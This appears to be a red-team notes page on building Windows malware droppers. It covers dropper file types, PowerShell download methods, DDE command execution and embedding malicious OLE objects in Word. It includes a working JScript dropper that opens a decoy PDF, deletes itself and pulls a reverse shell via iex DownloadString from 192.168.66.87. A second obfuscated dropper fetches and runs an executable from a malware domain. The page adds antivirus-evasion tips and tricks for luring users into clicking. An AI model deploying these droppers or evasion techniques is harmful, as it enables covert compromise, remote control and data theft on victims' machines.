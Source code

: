 

A dropper never contains the actual payload. It is only the first stage which downloads the actual payload. For windows it can take many different forms, or written in different languages etc. Here are a few.


|No.    |Dropper type                  |File extension         |
|:------|:----------------------------:|:----------------------|
|       |                              |                       | 
|1      | JScript                      | .js/.jse              |     
|2      | VBScript                     | .vbs/.vbe             | 
|3      | Windows Script File          | .wsf                  |             
|4      | HTML Application             | .hta                  |     
|5      | Compiled HTML Help           | .chm                  |     
|6      | Batch file                   | .bat                  |     
|7      | Shortcut                     | .lnk                  |     
|8      | Office Word/Excel            | .doc/.docm/.xls/...   |         
|9      | Registry file                | .reg                  |         
|10     | Executable                   | .exe                  |         
|11     | Screensaver file             | .scr                  |         
|12     | Program Information File     | .pif                  |         
|13     | Installer Package            | .msi                  |     
|14     | Java Archive                 | .jar                  |     
|15     | Troubleshooting pack cabinet | .diagcab              |         
|


What we want to do here is really easy. We want to download the payload and then execute it. That is all.

However, we have a few requirements.
1. It needs to communicate over HTTPS.
2. It should not write anything to disk (except for the dropper of course).
3. It should download a fake document, and open it.

## Executing in memory (Fileless)

So before we go in to start developing our dropper in different languages we need to look at the different ways to execute code in memory.


### Powershell / WMI / ADODB.Stream

This is probably the most common way. 

There are a few flags that can be used to make the powershell command a bit more stealthy.
https://securityaffairs.co/wordpress/65570/hacking/powershell-attacks.html
https://www.reddit.com/r/PowerShell/comments/8qsndn/sneaky_powershell_trick_run_completely_without_a/



With Powershell there are mainly three ways to download files.

#### Invoke webrequest

```
Invoke-WebRequest


$url = "http://mirror.internode.on.net/pub/test/10meg.test"
$output = "$PSScriptRoot\10meg.test"
$start_time = Get-Date

Invoke-WebRequest -Uri $url -OutFile $output
Write-Output "Time taken: $((Get-Date).Subtract($start_time).Seconds) second(s)"
```


#### System.Net.WebClient
This is a .Net class that you can use straight from powershell.

```
(New-Object System.Net.WebClient).DownloadFile($url, $output)

```


#### Start-BitsTransfer


```
start-bitstransfer -source http://192.168.66.87/apaa.txt -destination test2.txt

```

#### Copy-item (SMB)

```
Copy-Item -Source \\server\share\file -Destination C:\path\

```


## JScript / JS
JScript and VBScript are supported nativly in Windows. When clicked on they are executed by `wscript.exe`.


When a `.js` file is clicked on in a windows machine that script is executed by wscript.exe.
Using a `.js` file might be beneficial because its icon looks like a text-document.

This is an example of a dropper that will do the following:
1. Download a clean PDF document. 
2. Open the document
3. Remove itself
4. Download an run the actual payload

```javascript
// Name of file: Interestingfile.js
// Download clean-document
command = "powershell.exe -exec bypass -Windowstyle Hidden -command \"start-bitstransfer -source http://192.168.66.87/Interestingfile.pdf -destination Interestingfile.pdf\"";
shell = new ActiveXObject("WScript.Shell").Run(command,0,true);

// Sleep a bit to make sure the document is downloaded
WScript.Sleep(3000);

// Open the document
var shell = WScript.CreateObject("WScript.Shell");
shell.Run("Interestingfile.pdf");

// Remove the dropper-file
command = "powershell.exe -exec bypass -Windowstyle Hidden -command \"rm Interestingfile.js\"";
shell = new ActiveXObject("WScript.Shell").Run(command,0,true);

// Launche the reverse shell
command = "powershell.exe -exec bypass -Windowstyle Hidden -noexit -command \"iex (New-Object Net.WebClient).DownloadString('http://192.168.66.87/shell_reverse.ps1')\"";
shell = new ActiveXObject("WScript.Shell").Run(command,0,true);
```



Not so fileless. This is another fun technique, however it writes to disk, so make sure that your malivious code is not of-the-shelf or it will be spotted by anti-virus.


```javascript
var myActXobj = this["ActiveXObject"];
var myShell = new myActXobj("WScript.Shell");
var myHTTP = new myActXobj("MSXML2.XMLHTTP");
var myTempPath = myShell["ExpandEnvironmentStrings"]("%TEMP%");

function dropperFunc(myURL, exeName) {
    var myPath = myTempPath + "/" + exeName + ".exe";
    myHTTP["open"]("GET", myURL, false);
    myHTTP["send"]();
    if (myHTTP.status == 200) {
	var myStream = new myActXobj("ADODB.Stream");
        myStream["open"]();
        myStream.type = 1;
        myStream["write"](myHTTP["ResponseBody"]);
        myStream["position"] = 0;
        myStream["saveToFile"](myPath, 2);
        myStream.close();
        myShell["Run"](myPath, 1, 0); 
    }
}
dropperFunc("hxxx://mittmalware[.]com/mal.bin","CGvMIoL");
```

### HTA


A .hta-file is basically just an HTML file. But when it is executed the javascript inside it has access to ActiveXObjects so it can execute anything on the machien.

.HTA files are more prone to be considered malware though.


```html
<html>
  <head>
    <script language="VBscript">
    But your VBScript or JScript here
    </script>
  </head>
</html>
```

### Registry file

### Insert malicious file (OLE Object) into Word

OLE stands for Object Linking and Embedding.

You can embed different types of files into a Word file. Common OLE objects are JavaScript, VBScript or EXE files.

Open up a word document.
Go to `Insert > Text > Object > Create New > Package > Browse to your malicious javascript-file`.

The user must click on the file for it to be executed.
For this there are a few different techniques in use. It might be to make the icon huge, and then ask the user to click it to decrypt the text ot something like that.

It can also be to ask the user to click on the file to prove you are not a robot.


### Dynamic Data Exchange - DDE 
Using DDE it is possible to execute commands from within Word or Excel.
Microsoft patched the possiblility to execute DDE:s from word. 

In latest Microsoft Excel 365 (2019) you need to go to  `File / Options / Trust Center / Trust Center Settings / Enable Dynamic Data Exchange Server Launch` for it to work.


You can execute commands like this:

```
=cmd| '/c cmd.exe'!A1
```

If you want to run more complicated commands that require multiple quotationmarks you can encode your payload with base64. It appreas that it needs to be 

```
 [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('Get-ChildItem'))
```
## Download and execute your second stage payload
So, if you get your user to execute a `.js` file, DDE, EXE or any other type, you want to download your real code.
There are some things you want with this. You do not want to write your second stage payload to disk, as that increase the risk of it being detected by anti-virus.
So you want to run your code straight into memory if you can.

https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/



